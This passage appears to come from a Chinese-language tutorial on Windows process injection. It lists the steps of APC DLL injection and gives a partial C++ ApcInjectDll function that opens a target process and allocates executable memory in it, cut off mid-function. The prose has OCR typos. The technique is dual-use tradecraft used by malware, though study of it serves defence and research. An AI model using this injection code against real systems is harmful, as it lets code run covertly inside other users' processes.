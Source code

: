 ```cpp
		}
	}

	return FALSE;
}
```
#### APC注入
实现APC注入的具体流程如下：
首先,通过OpenProccss函数打开目标进程,获取目标进程的句柄。
然后,通过调用WIN32 API函数CreateToolhelp32Snapshot、Thread32First以及Thread32Next遍历线程快照,获取目标进程的所有线程ID。
接着,调用VirtualAllocEx函数在目标进程中申请内存,并通过WriteProcessMemory函数向内存中写入DLL的注入路径。
最后,遍历获取的线程ID,并调用OpenThread函数以THREAD ALL ACCESS访问权限 打开线程,获取线程句柄。并调用QueulUerAPC函数向线程插入APC函数,设置APC函数 的地址为LoadLibraryA函数的地址,并设置APC函数参数为上述DLL路径地址。
```cpp

// APC注入
BOOL ApcInjectDll(char *pszProcessName, char *pszDllName)
{
	BOOL bRet = FALSE;
	DWORD dwProcessId = 0;
	DWORD *pThreadId = NULL;
	DWORD dwThreadIdLength = 0;
	HANDLE hProcess = NULL, hThread = NULL;
	PVOID pBaseAddress = NULL;
	PVOID pLoadLibraryAFunc = NULL;
	SIZE_T dwRet = 0, dwDllPathLen = 1 + ::lstrlen(pszDllName);
	DWORD i = 0;

	do
	{
		// 根据进程名称获取PID
		dwProcessId = GetProcessIdByProcessName(pszProcessName);
		if (0 >= dwProcessId)
		{
			bRet = FALSE;
			break;
		}

		// 根据PID获取所有的相应线程ID
		bRet = GetAllThreadIdByProcessId(dwProcessId, &pThreadId, &dwThreadIdLength);
		if (FALSE == bRet)
		{
			bRet = FALSE;
			break;
		}

		// 打开注入进程
		hProcess = ::OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
		if (NULL == hProcess)
		{
			ShowError("OpenProcess");
			bRet = FALSE;
			break;
		}

		// 在注入进程空间申请内存
		pBaseAddress = ::VirtualAllocEx(hProcess, NULL, dwDllPathLen, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		if (NULL == pBaseAddress)
		{
			ShowError("VirtualAllocEx");
			bRet = FALSE;
			break;
```